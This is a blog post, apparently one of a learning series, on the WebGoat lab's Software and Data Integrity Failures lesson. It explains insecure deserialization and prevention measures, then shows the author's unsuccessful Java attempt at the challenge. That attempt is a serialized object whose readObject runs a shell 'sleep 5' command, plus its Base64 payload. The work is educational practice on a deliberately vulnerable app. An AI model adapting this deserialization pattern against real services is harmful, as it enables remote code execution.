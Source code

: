 ## **OWASP Top 10 WebGoat - Software and Data Integrity Failures**

<ins>**Introduction**</ins>

*WebGoat* is a deliberately insecure web application maintained by *OWASP* designed to teach web application security lessons. More information including how to download and run WebGoat can be found here on the projects [GitHub](https://github.com/WebGoat/WebGoat).
This is post three of a series where I will be doing WebGoats challenges to further my understanding of the OWASP Top 10 and web application security as a whole. I have started from the number 10 and am working my way backwards to number 1.

---

<ins> **\#8. Software and Data Integrity Failures** </ins>

Software and data integrity failures relate to code and infrastructure that does not protect against integrity violations. For example when an application relies upon plugs, libraries, or modules from untrusted sources, repositories, and content delivery networks. Many applications include auto-update functionality, where updates are downloaded without integrity verification and applied to the previously trusted application. Attackers could potentially upload their own updates to be distributed and run on all installations.  

 

**How to Prevent:** 

* Use digital signatures to verify the software or data is from the expected source and has not been altered.
* Ensure libraries and dependencies are using trusted repositories. Hosting an internal known-good repository of your own is also an option 
* Verify that software components do not contain known vulnerabilities through a software supply chain security tool. 
* Ensure that there is a review process for code and configuration changes to minimize the chance that malicious code could be introduced to the software pipeline 
* Ensure that unsigned or unencrypted serialized data is not sent to untrusted clients without some form of integrity check or digital signature to detect tampering. 
* Ensure that any Continuous Integration/Delivery pipelines have proper segregation, configuration, and access control to ensure the integrity of the code flowing through the build and deploy processes. 

---

<ins> **Insecure Deserialization** </ins>

Serialization is the process of converting an object or data structure into a format that can be easily stored, transmitted, or persisted. The serialized form is typically the binary representation of XML or JSON. Deserialization is the process of converting data that has been serialized back into its original form.  

 

During deserialization data is reconstructed and converted back into an object or data structure that can be used in memory. This process involves reading the serialized data and restoring the object's state, including its attributes, relationships, and any other relevant information. Deserialization is commonly used in various scenarios like: 
 
* Data storage and retrieval, Serialized is often stored in databases and later deserialized to retrieve the original object. 
* Serialized data can be transmitted between different processes or systems, allowing them to exchange information regardless of platform. 
* In distributed systems objects or data structures can be serialized and sent across network boundaries to invoke methods or perform remote operations in what's known as Remote procedure calls (RPC). 
* Deserialization can introduce security risks when the serialized data is untrusted or manipulated by malicious actors. Deserialization vulnerabilities can be exploited to execute arbitrary code or perform other unauthorized actions. 

---

<ins> **WebGoat Software and Data Integrity Failures Challenges** </ins>

![Challenge1](/docs/assets/images/webgoat/software_data_failures/challenge.png)

 

WebGoat has just one challenge related to Software and Data Integrity Failures and it's about Insecure Deserialization. In the challenge an input box receives a serialized string and then deserializes it. The challenge is to alter the object in order to delay the page response. 

Unfortunately I don't know enough about Java to solve this challenge. I tried to compile the following code to edit the serialized string to include a delay command but kept getting a "The serialization id does not match. Probably the version has been updated. Let's try again" No matter what I edit the version number to in my code it generates the same error though 

```
import java.io.*;
import java.time.LocalDateTime;
import java.util.Base64;

public class AttackSerialization {
    public static void main(String[] args) throws Exception {
        String taskName = "DelayTask";
        String taskAction = "Runtime.getRuntime().exec(\"/bin/bash -c 'sleep 5'\");";

        VulnerableTaskHolder taskHolder = new VulnerableTaskHolder(taskName, taskAction);
        ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(outputStream);
        objectOutputStream.writeObject(taskHolder);
        objectOutputStream.flush();

        String serializedObject = Base64.getEncoder().encodeToString(outputStream.toByteArray());
        System.out.println(serializedObject);
    }
}

class VulnerableTaskHolder implements Serializable {
    private static final long serialVersionUID = 2L;

    private String taskName;
    private String taskAction;
    private LocalDateTime requestedExecutionTime;

    public VulnerableTaskHolder(String taskName, String taskAction) {
        super();
        this.taskName = taskName;
        this.taskAction = taskAction;
        this.requestedExecutionTime = LocalDateTime.now();
    }

    private void readObject(ObjectInputStream stream) throws Exception {
        stream.defaultReadObject();
        Runtime.getRuntime().exec(taskAction);
    }
}
```

```
rO0ABXNyABRWdWxuZXJhYmxlVGFza0hvbGRlcgAAAAAAAAAKAgADTAAWcmVxdWVzdGVkRXhlY3V0aW9uVGltZXQAGUxqYXZhL3RpbWUvTG9jYWxEYXRlVGltZTtMAAp0YXNrQWN0aW9udAASTGphdmEvbGFuZy9TdHJpbmc7TAAIdGFza05hbWVxAH4AAnhwc3IADWphdmEudGltZS5TZXKVXYS6GyJIsgwAAHhwdw4FAAAH5wUaEQIwAfQfG3h0ADRSdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKCIvYmluL2Jhc2ggLWMgJ3NsZWVwIDUnIik7dAAJRGVsYXlUYXNr`
```

![failed](/docs/assets/images/webgoat/software_data_failures/failed.png)


I tried for a long time to solve this one but I'll have to study more about how things work on the backend of a web application to get this one. I tried for a long time to solve this one but I'll have to study more about how things work on the backend of a web application to get this one. 
